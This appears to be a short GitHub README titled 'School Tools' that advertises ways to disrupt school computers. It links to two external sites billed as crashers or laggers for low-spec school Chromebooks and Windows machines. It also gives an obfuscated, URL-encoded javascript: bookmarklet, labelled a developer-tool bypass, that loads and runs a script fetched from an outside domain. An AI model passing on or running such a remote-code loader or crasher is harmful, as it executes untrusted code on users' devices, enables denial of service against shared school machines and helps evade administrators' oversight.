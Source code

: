 # School Tools (C) 2021 - present Stiizzy Cat

A repo full of tools to torture School!




## Documentation
> School Laptop Laggers (Must be low spec chrome OS & windows systems)
+ [Crasher](http://bongo-hates-python.cf/)
+ [Crasher/lagger](https://crash.drugs4children.org/)

> Developer Tool Bypasses
```JS 
javascript:(function()%7Bfunction%20callback()%7Bconsole.log(%22L%2C%20sysadmin%22)%7Dvar%20s%3Ddocument.createElement(%22script%22)%3Bs.src%3D%22https%3A%2F%2Fdrugs4children.org%2FGetSource.js%22%3Bif(s.addEventListener)%7Bs.addEventListener(%22load%22%2Ccallback%2Cfalse)%7Delse%20if(s.readyState)%7Bs.onreadystatechange%3Dcallback%7Ddocument.body.appendChild(s)%3B%7D)()
```

+ [Soon](https://github.com/StiizzyCat/SchoolTools)
